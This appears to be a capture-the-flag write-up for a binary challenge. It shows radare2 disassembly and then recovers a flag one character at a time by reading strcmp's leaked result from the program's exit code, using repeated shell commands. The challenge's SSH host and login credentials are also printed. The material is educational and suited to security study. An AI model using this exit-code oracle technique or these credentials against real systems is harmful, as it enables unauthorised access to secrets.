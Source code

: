 ## Heed my warning

**Category :** Binary exploits

**Points :** 400

**Solves :** -

**Description :**
Try building it: gcc -m32 -Wall -ansi source.c -o runme

ssh pwn.baectf.com
Credentials: username 'pwn018', password 'africanswallow'

**Hint :** 
- 1 point hint: We recommend building this and paying attention to the warning!
- 25 point hint: The return value of the strcmp call ends up being used as the return value of the whole program
- 50 point hint: Analyse how the return address of the program changes depending on the input you give it. Work out the password a character at a time.

### Write-up

For this challenge, we didn't manage to finish it up on the competition day.  

So, I asked `amon` (from NUS Greyhats) on how he solved it. He said that `strcmp()` return value `eax` is being return to the system.

To confirm it, look at below `main` diassembly:

```
$ r2 -A runme 
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[x] Type matching analysis for all functions (afta)
[x] Use -AA or aaaa to perform additional experimental analysis.
 -- The door can see into your soul.
[0x080484e0]> pdf main
This block size is too big (52428800<134514141). Did you mean 'pd @ 0x080485dd' instead?
[0x080484e0]> pd @ 0x080485dd
            ;-- main:
┌ (fcn) sym.main 265
│   sym.main (int argc, char **argv, char **envp);
│           ; arg unsigned int arg_8h @ ebp+0x8
│           ; arg int arg_ch @ ebp+0xc
            ...
│           0x080486a4      8b00           mov eax, dword [eax]
│           0x080486a6      89442404       mov dword [size], eax       ; const char *s2
│           0x080486aa      8d442418       lea eax, dword [s1]         ; 0x18 ; 24
│           0x080486ae      890424         mov dword [esp], eax        ; const char *s1
│           0x080486b1      e87afdffff     call sym.imp.strcmp         ; int strcmp(const char *s1, const char *s2)
│           0x080486b6      85c0           test eax, eax
│       ┌─< 0x080486b8      7518           jne 0x80486d2
│       │   0x080486ba      c70424ae8704.  mov dword [esp], str.Winning ; [0x80487ae:4]=0x6e6e6957 ; "Winning!" ; const char *s
│       │   0x080486c1      e8aafdffff     call sym.imp.puts           ; int puts(const char *s)
│       │   0x080486c6      c70424000000.  mov dword [esp], 0          ; int status
│       │   0x080486cd      e8befdffff     call sym.imp.exit           ; void exit(int status)
│       │   ; CODE XREF from sym.main (0x80486b8)
│       └─> 0x080486d2      8b54247c       mov edx, dword [canary]     ; [0x7c:4]=-1 ; '|' ; 124
│           0x080486d6      653315140000.  xor edx, dword gs:[0x14]
│       ┌─< 0x080486dd      7405           je 0x80486e4
│       │   0x080486df      e86cfdffff     call sym.imp.__stack_chk_fail ; void __stack_chk_fail(void)
│       │   ; CODE XREF from sym.main (0x80486dd)
│       └─> 0x080486e4      c9             leave
└           0x080486e5      c3             ret
            ...
```

As we can see, `eax` isn't being cleared after `strcmp()` call, so that value is being treated as `main()` return value.

So, what `strcmp()` actually return?

Looking at the man-page:

```
RETURN VALUE
       The strcmp() and strncmp() functions return an integer less than, equal to, or greater than zero if s1 (or the first n bytes thereof) is found, respectively, to be less than, to
       match, or be greater than s2.
```

So, we have the idea now?

At the actual competition day, `key.txt` contains the actual flag that we need to retrieve. As I didn't solve it, so I don't know the content. As for this write-up, I will treat `key.txt` to contain string `win`.

So, how to recover this `win` flag from `key.txt` using information that `strcmp()` give us?

Well, remember, that `strcmp()` return `1`, `-1`, `0`, depending on str that it compares with?

So, looking at the source code, we have this statement `if (!strcmp(key, argv[1]))`. So `key` which stores our flag is compared with `argv[1]` which is our user-input.

For example, this comparison `strcmp("ab", "aa")`, will return `1`, as first string is `larger` than second string. `strcmp("aa", "ab")` will return `-1` as first string smaller than second string.

So, by using this knowledge, we can work out the flag a character a time. So, we can make an intelligence brute force, where we test different character and compare it with system return value. Here is the command to do it.

```
./runme <string> ; echo $?
```

So, work it out, shall we? *ASCII table should be on your side right now*

```
$ ./runme a ; echo $?   <-- first char should be greater than `a`
1
$ ./runme z ; echo $?   <-- first char should be lower than `z`
255
$ ./runme p ; echo $?
1
$ ./runme w ; echo $?   <-- should be greater than `w`
1
$ ./runme x ; echo $?   <-- but then next char `x` after `w` is returning -1, so this the first character
255
$ ./runme wa ; echo $?
1
$ ./runme wz ; echo $?
255
$ ./runme wp ; echo $?
255
$ ./runme wg ; echo $?
1
$ ./runme wh ; echo $?
1
$ ./runme wi ; echo $?
1
$ ./runme wj ; echo $?
255
$ ./runme wia ; echo $?
1
$ ./runme wiz ; echo $?
255
$ ./runme wip ; echo $?
255
$ ./runme wij ; echo $?
1
$ ./runme wim ; echo $?
1
$ ./runme win ; echo $?  <-- got it!
Winning!
0
```

:)